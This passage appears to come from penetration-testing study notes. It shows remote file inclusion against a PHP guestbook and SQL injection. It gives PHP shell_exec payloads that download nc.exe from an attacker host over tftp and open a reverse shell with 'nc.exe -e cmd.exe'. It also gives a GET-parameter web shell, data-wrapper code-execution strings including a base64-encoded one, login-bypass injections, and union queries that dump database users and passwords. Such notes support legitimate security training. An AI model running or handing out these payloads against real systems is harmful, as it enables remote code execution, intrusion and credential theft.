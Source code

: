 Just like getting a shell with LFI, start the TFTP server and prepare "nc.exe". Also, prepare a malicious file called "evil.txt" and host it within the attacker's webserver and start apache with `service apache2 start`:
```
<?php echo shell_exec("tftp -i [kali ip] get nc.exe");?>
```
Call the webpage to include "evil.txt" and execute the PHP code within it to download "nc.exe" from our machine using `tftp`. It may take a sec to download:
```
http://192.168.1.23/addguestbook.php?name=hi&comment=&LANG=http://[kali ip]/evil.txt%00
```
Change "evil.txt" on the attacker's webserver to invoke the `nc.exe` command:
```php
<?php echo shell_exec("nc.exe [kali ip] [port] -e cmd.exe");?>
```
Prepare a listener and refresh the webpage to pop a reverse shell.

#### RFI Summary

Alternatively, to avoid constantly changing the php file, host this instead, and visit `http://192.168.1.23/addguestbook.php?name=hi&comment=&LANG=http://[kali ip]/evil.txt%00&cmd=whoami`. Change `cmd` to the command you want to execute:
```php
<?php echo shell_exec($_GET['cmd']);?>
```

```
# Data wrapper allows for direct code execution
param=data:text/plain,<?system($_GET['x']);?>&x=whoami
param=data:,<?system($_GET['x']);?>&x=whoami
param=data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls
```

### SQL

#### Simple Authentication Bypass
```sql
select * from users where name='?' and password='?';
select * from users where name='wronguser' or 1=1;#' and password='?';
select * from users where name='wronguser' or 1=1 limit 1;#' and password='?'; # when server expects 1 result
```

#### Database Enumeration and Extraction
```sql
select * from comments where id=?;
select * from comments where id=738'; # test for sql injection
select * from comments where id=738 order by 6; # enumerate number of columns
select * from comments where id=738 union select 1,2,3,4,5,6; # union select with same number of columns, to see which numbers gets printed on webpage
select * from comments where id=738 union select 1,2,3,4,@@version,6; # discover MySQL version
select * from comments where id=738 union select 1,2,3,4,user(),6; # discover current user being used for db connection
select * from comments where id=738 union select 1,2,3,4,table_name,6 from information_schema.tables; # dump all tables and find interesting one
select * from comments where id=738 union select 1,2,3,4,column_name,6 from information_schema.columns where table_name='users'; # dump all column names from that table
select * from comments where id=738 union select 1,2,3,4,concat(name,0x3a,password),6 from users; # dump users information. 0x3a can be substituted with ':'
```
